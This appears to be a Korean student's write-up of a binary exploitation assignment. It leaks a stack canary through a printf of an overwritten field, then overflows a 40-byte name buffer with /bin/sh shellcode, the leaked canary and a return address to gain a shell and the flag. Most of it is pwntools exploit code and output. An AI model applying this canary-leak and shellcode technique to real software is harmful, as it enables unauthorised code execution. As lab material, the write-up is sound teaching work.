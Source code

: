 **print_info함수로 canary값 탈취**

```python
# print_info
select_option(2)
r.recvuntil(b'b'*3)
canary = r.recvuntil(b'\n')[0:3]
canary = canary = r.recvuntil(b'\n')[0:3]
```

- student_number값이 덮어써졌으므로, `printf("name : %s\n", student->name);` 코드로 \n을 만날때까지 값을 출력함
- 현재 grade값은 `A*bb` 이고 canary의 첫 번째 값은 `b` 이므로 `r.recvuntil(b'b'*3)` 코드를 통해 canary의 첫 번째 바이트 값 까지 얻어올 수 있음
- 이후 `canary = r.recvuntil(b'\n')[0:3]` 코드로 4바이트 카나리의 첫 번째 값을 제외한 나머지 값을 얻어오고 `canary = r.recvuntil(b'\n')[0:3]` 과정을 거쳐 canary값을 탈취한다.

**stack buffer overflow 발생**

```python
# graduate_school_application
select_option(3)
r.recvuntil(b'name\n')
shellcode = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80"
ex = shellcode + b'a' * (40-len(shellcode))
ex += passcode
ex += b'a'*4
ex += b'A+aa'
ex += p32(canary)
ex += b'a'*4
ex += p32(stack)
r.send(ex)

for i in range(6, 10):
    select_option(i)

r.interactive()
```

- canary값과 name 배열 주소값을 모두 탈취 했으므로 필요한 값들을 모두 얻었다.
- graduate_school_application함수를 진행해 name 40바이트 배열에 들어갈 ex값을 계산한다
- 이후 passcode는 기존 값을, student_number는 a*4값을, grade는 A+aa로 A+로 맞춰준다.
- 이후 탈취한 canary값을 붙이고, SFP는 a*4, RET는 name 배열의 주소값을 넣어줌

- 마지막으로 menu함수는 10번 실행하므로 남은 횟수도 실행할 수 있게 for문을 작성
- 값은 1,2,3이 아닌 값으로 에러가 발생할 수 있게 설정함

```powershell
$ ./malicious
Congratulations!
Please enter your student ID, and I'll give you the flag.
$ 2018131321
Please copy and paste the following content into the report.
Assignment2_flag{424960885128585659360728767}
```

`flag` : `Assignment2_flag{424960885128585659360728767}`